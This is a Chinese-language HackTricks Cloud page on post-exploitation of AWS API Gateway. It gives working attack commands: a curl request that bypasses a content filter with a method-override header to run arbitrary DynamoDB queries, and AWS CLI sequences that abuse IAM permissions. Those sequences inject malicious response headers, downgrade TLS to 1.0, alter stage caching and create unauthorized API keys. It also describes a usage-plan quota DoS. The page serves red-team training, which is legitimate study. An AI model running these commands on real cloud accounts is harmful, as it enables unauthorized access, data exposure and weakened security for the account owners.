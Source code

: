 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## API Gateway

更多信息请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### 访问未公开的 APIs

你可以在 [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) 创建一个服务 `com.amazonaws.us-east-1.execute-api` 的端点，将端点暴露在你有访问权限的网络中（可能通过 EC2 机器），并分配一个允许所有连接的安全组。\
然后，从 EC2 机器你将能够访问该端点，从而调用之前未公开的 gateway API。

### 绕过请求体直通

此技术在 [**这个 CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) 中被发现。

如 [**AWS 文档**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) 中 `PassthroughBehavior` 部分所示，默认情况下，值 **`WHEN_NO_MATCH`** 在检查请求的 **Content-Type** 头时，将请求传递到后端而不进行转换。

因此，在 CTF 中，当请求使用 `Content-Type: application/json` 发送时，API Gateway 有一个集成模板 **防止标志在响应中被泄露**：

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

然而，发送一个带有 **`Content-type: text/json`** 的请求可以绕过该过滤器。&#x20;

最后，由于 API Gateway 只允许 `Get` 和 `Options`，可以通过在请求体中发送查询并使用 `X-HTTP-Method-Override: GET` 头来发送任意 dynamoDB 查询而不受限制：

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

在**Enumeration**部分，你可以看到如何**获取密钥的使用计划**。如果你有密钥并且它**每月限制**使用X次，你可以**直接使用它并导致DoS**。

**API Key**只需要**包含**在一个名为**`x-api-key`**的**HTTP header**中。

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

具有`apigateway:UpdateGatewayResponse`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的Gateway Response以包含泄露敏感信息或执行恶意脚本的自定义header或响应模板**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**: 泄露敏感信息、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

具有`apigateway:UpdateStage`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的API Gateway阶段以将流量重定向到不同的阶段或更改缓存设置以获取未经授权的缓存数据访问**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**: 未经授权访问缓存数据，干扰或拦截API流量。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

具有 `apigateway:PutMethodResponse` 和 `apigateway:CreateDeployment` 权限的攻击者可以**修改现有API Gateway REST API方法的方法响应，以包含泄露敏感信息或执行恶意脚本的自定义头或响应模板**。
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**：敏感信息泄露、执行恶意脚本或未经授权访问API资源。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

具有`apigateway:UpdateRestApi`和`apigateway:CreateDeployment`权限的攻击者可以**修改API Gateway REST API设置以禁用日志记录或更改最低TLS版本，可能会削弱API的安全性**。
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**潜在影响**: 削弱API的安全性，可能允许未经授权的访问或暴露敏感信息。

{% hint style="info" %}
需要测试
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

具有 `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, 和 `apigateway:CreateUsagePlanKey` 权限的攻击者可以**创建新的API密钥，将其与使用计划关联，然后使用这些密钥进行未经授权的API访问**。
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**潜在影响**: 未经授权访问API资源，绕过安全控制。

{% hint style="info" %}
需要测试
{% endhint %}

{% hint style="success" %}
学习和练习AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交PR分享hacking技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库。

</details>
{% endhint %}
